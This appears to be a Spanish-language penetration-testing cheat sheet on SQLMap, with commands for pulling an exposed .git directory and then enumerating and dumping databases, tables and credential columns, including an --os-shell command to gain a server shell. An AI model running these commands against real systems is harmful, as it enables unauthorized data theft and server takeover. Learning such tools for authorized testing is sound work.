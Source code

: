 # SQL-Map 

Tags: #Tool #Web #Enumeracion #BurpSuite #SQLI #Git

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos.

SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información de la base de datos. La información extraída puede incluir nombres de usuario, contraseñas y otra información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación.

Al utilizar SQLMap, los profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad. En general, SQLMap es una herramienta valiosa para cualquier profesional de la seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

## SQLMap

Cuando mires en una maquina victima el directorio **/.git/** quiere decir que es porque se ha clonado un directorio Git y eso puede suponer un riesgo porque si tiene capacidad de 'directory listing'  nos podemos traer los archivos a la maquina de atacante. 
```bash 
❯ wget -r http://192.168.68.11           # Nos descargarnos de forma recursiva el contenido del dir .git
❯ git log                                # Pueder ves los 'commits' y su descripcion de cada cambio 
❯ git show <id>                          # puedes ver el contenido de los commit y en algunos casos obtener el registro de credenciales 
```

```bash 
❯ sqlmap -u 'http://<IP Victima>' --dbs --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch  # Debemos de colocar la url hasta el parametro que se usa para modificar e inyectar el SQL.
	# dbs = Haremos que nos enumere las bases de datos, pero antes debemos de estar autenticados 
	# cookie = "usuario=valor" Colocar la Cookie de Sesion de la web que se encuentra en (Inspector > Storage > Value)
	# dbms = Para indicarle que la base de datos es Mysql y asi evitar algunas preguntas (Esto si conocemos que base de datos esta corriendo) 
	# batch = Indicar que no queremos que nos este preguntando y solo nos muestre los resultados obtenidos

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> --tables
	# D = Colocar el nombre de la DB que hemos encontrado 
	# tables = Enumerar las tablas de la DB

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> --columns
	# columns = Enumerar las columnas 
	# T = Nombre de la tabla 

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> -C <username,password,email> --dump
	# C = Colocas las columnas que quieres dumpear
	# dump = Mostrar el contenido de las columnas username, password y email

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --risk 3 --level 4   # Esto demora mas tiempo 
	# risk = Nivel de riesgo 
	# level = Nivel de profundidad

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --os-shell --batch     # Si el servidor interpreta PHP, tenemos permisos, podriamos ganar una consola interactiva 
```

Podemos usar los archivos de BurpSuite para ingresarlos en la herramienta SQLMap y así nos diga que tipo de vulnerabilidades tiene, además de poder obtener datos a partir de ellas. Para este ejemplo usaremos **SQLI**

```bash
❯ sqlmap -r example.req -p searchitem --batch

	# r = Archivo con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
```

```bash
❯ sqlmap -r example.req -p searchitem --batch --dbs

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# dbs = Me muestre todas las bases de datos existentes (Dumpear)
```

Una vez obtenidas las DBs podemos apuntar a las **tablas** de una base especifica

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining --tables

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# tables = Queremos que nos muestre las tablas de la DB que elegimos 
```

Una vez obtenidas las tablas, ahora vamos a querer que nos enumere las **columnas**

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users --columns

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# columns = Queremos que nos muestre las columnas de la DB que elegimos 
```

Una vez obtenidas las columnas podemos hacer que nos **muestre (Dumpear)** sus valores

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users -C username,password --dump

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# C = Le colocamos el nombre de las columnas existente 
	# dump = Que nos muestre los valores que tienen esas columnas
```



